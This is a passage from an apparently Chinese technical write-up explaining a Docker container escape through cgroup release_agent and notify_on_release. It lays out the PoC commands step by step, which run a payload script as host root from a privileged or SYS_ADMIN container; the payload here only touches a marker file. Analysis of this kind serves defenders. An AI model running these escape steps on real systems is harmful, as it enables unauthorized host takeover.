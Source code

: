   

逃逸效果如图：

![](https://gitee.com/fuli009/images/raw/master/public/20220320222801.png)2022-03-13-23-34-45.png有点云里雾里？不怕，我分步骤解析一下上面的PoC，这个姿势最终就是这枚漏洞的关键。第一步：`cgroup_dir=/sys/fs/cgroup/rdma`
，找到一个包含`release_agent`的目录，由前面的cgroups知识得知，notify_on_release的触发条件需要同时满足子系统下notify_on_release文件值为1并且他的最顶层子系统有可执行的`release_agent`文件。notify_on_release文件在每一个层级的子系统中都有，但是`release_agent`文件不是每个顶层子系统都有的。直接创建release_agent文件会提示权限不足：![](https://gitee.com/fuli009/images/raw/master/public/20220320222802.png)2022-03-14-00-52-13.png默认符合条件的只有rdma子系统，也可以使用cgroup_dir=`dirname
$(ls -x /s*/fs/c*/*/r* |head -n1)`进行查找和定位。第二步：`mkdir -p
$cgroup_dir/test_subsystem`
，在刚刚找到的子系统下创建一个自定义的子系统，名字随意。这里我们能观察到当执行mkdir的时候并不像平时那样创建一个新的空文件目录，而是把此子系统需要的属性虚拟文件全都自动创建了：![](https://gitee.com/fuli009/images/raw/master/public/20220320222803.png)2022-03-14-01-02-29.png第三步：`echo
1
``>$cgroup_dir/test_subsystem/notify_on_release`，将刚刚创建的test_subsystem子系统中的`notify_on_release`文件配置为1用来在
**全部进程都退出该cgroup子系统后触发内核调用release_agent** 。这个比较好理解，不做过多解释了。在进行第四步前，再补一个小知识：
**Docker存储**
。我们都知道Docker镜像是分层存储的，实际上整个Docker容器在运行中默认使用的存储方式为OverlayFS文件系统，默认使用的驱动是overlay2。![](https://gitee.com/fuli009/images/raw/master/public/20220320222804.png)2022-03-14-01-18-08.pngOverlayFS
在Linux
宿主机上分层为两个目录，在容器中它们显示为一个目录。这些目录被称为“层”，OverlayFS将下层目录称为`lowerdir`，上层目录称为`upperdir`。合并后的称为`merged`。OverlayFS文件系统的结构图大致如下(图片引用自Docker官方文档)：![](https://gitee.com/fuli009/images/raw/master/public/20220320222805.png)2022-03-14-01-34-46.jpg`lowerdir`
**一般存储的是镜像相关的层**
，**`upperdir`一般存储的是运行中的未提交容器层**，他们都被挂载到了宿主机的文件系统中：![](https://gitee.com/fuli009/images/raw/master/public/20220320222806.png)2022-03-14-01-41-19.png在容器内部，可以通过查看`/etc/mtab`文件来找到此容器对应的`lowerdir`和`upperdir`。![](https://gitee.com/fuli009/images/raw/master/public/20220320222808.png)2022-03-14-01-39-04.png通常情况下，`upperdir`中映射了容器运行时变动的内容
：![](https://gitee.com/fuli009/images/raw/master/public/20220320222810.png)2022-03-14-02-02-02.png
**但是容器内部有Namespace隔离，我们无法直接在容器内部运行宿主机的文件和代码，更无法以宿主机的root权限运行。那么若想逃逸，我们需要“借刀杀人”。这个逃逸姿势中，刀就是cgroup的notify_on_release功能**
。cgroup和notify_on_release都是Linux内核的功能，Docker容器是共用宿主机的Linux内核的，
**所以我们通过在容器内部控制cgroup来在宿主机以很高的权限运行代码。** 继续看PoC：第四步：`host_overlay2_fs_dir=`sed
-n 's/.*\upperdir=([^,])./\1/p' /etc/mtab`，找到宿主机上的`upperdir`挂载目录。第五步：`echo
'#!/bin/sh' > /script;echo "touch
/hacked_by_tunan_use_cg_notify_on_release_and_privileged_containter" >>
/script`，在容器内部创建Payload。第六步：`echo "$host_overlay2_fs_dir/script" >
$cgroup_dir/release_agent`，把Payload目录路径写入`release_agent`。第七步：`chmod a+x
/script `添加执行权限。第八步：`sh -c "echo \$\$
``>$cgroup_dir/test_subsystem/cgroup.procs"` 添加一个 **执行后就退出的进程**
到新创建的cgroup子系统中来触发notify_on_release。到目前为止，这个逃逸姿势已经讲完了，虽说需要特权容器，但是整个思路还是很妙的。再梳理一下整个流程如下图：![](https://gitee.com/fuli009/images/raw/master/public/20220320222812.png)2022-03-14-15-29-18.png
** **>** **>  **SYS_ADMIN下的容器逃逸姿势(此时还不是漏洞)[4]**Felix的Twitter发完几天后，一名叫Dominik
'disconnect3d' Czarnota（大概吧）的研究员发表了一篇文章：Understanding Docker container
escapes[5]称我可以不用特权容器就能逃逸，我“只需要”给容器SYS_ADMIN的能力就可以(`docker run --cap-
add=SYS_ADMIN --security-opt apparmor=unconfined --name test-nginx-sys-admin
-d
nginx`)。此时的容器和刚才有什么区别呢？我们发现没有权限新建cgroup子系统了也没有权限修改cgroup子系统中的文件了：![](https://gitee.com/fuli009/images/raw/master/public/20220320222813.png)2022-03-14-16-00-44.png![](https://gitee.com/fuli009/images/raw/master/public/20220320222815.png)2022-03-14-02-40-01.png
**如何绕？**
在前置知识中有提到，如果用户想操作cgroups可以使用mount挂载cgroup虚拟文件系统，cgroup虚拟文件系统默认挂载到`/sys/fs/cgroup`目录下，
**这个自动挂载目录的操作权限较高** ，用户也可以自行将cgroups虚拟文件系统挂载到用户权限可及的目录下。于是PoC修改如下：
